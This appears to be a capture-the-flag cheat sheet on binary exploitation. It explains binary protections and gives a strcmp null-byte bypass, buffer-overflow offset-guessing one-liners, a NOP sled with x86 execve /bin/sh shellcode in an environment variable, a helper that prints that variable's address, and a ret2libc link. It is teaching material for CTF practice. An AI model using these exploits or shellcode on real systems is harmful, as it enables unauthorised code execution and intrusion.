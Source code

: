 > No RELRO: Possible to overwrite global variable

> No canary: Possible to smash the stack

> NX disabled: Possible to write and execute from the stack

> No PIE: Virtual address it should use and keeps its memory layout quite static

> File descriptor: input - 0, output - 1, error - 2

## Tricks

- Bypass `strcmp`
  
  - Strcmp stops at null byte. **\x00**

## GDB

- `Pipe python output`

  - `r < <(python -c "print '\x41' * 500")`

## Buffer overflow

- `bof guessing offset`

  - `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
  - `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`

- `Jump to env`

  - ```sh
    export WIN=$(python -c "'\x90' * 100 + '\x31\xc0\x99\xb0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80'")
    ```
  - ```c
    #include <stdio.h>
    #include <stdlib.h>
    int main(int argc, char *argv[]) {
      char *nix = getenv("WIN");
      printf("%p\n", nix);

      return 0;
    }
    ```

## Return 2 libc

- `ret2libc`

  - [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)
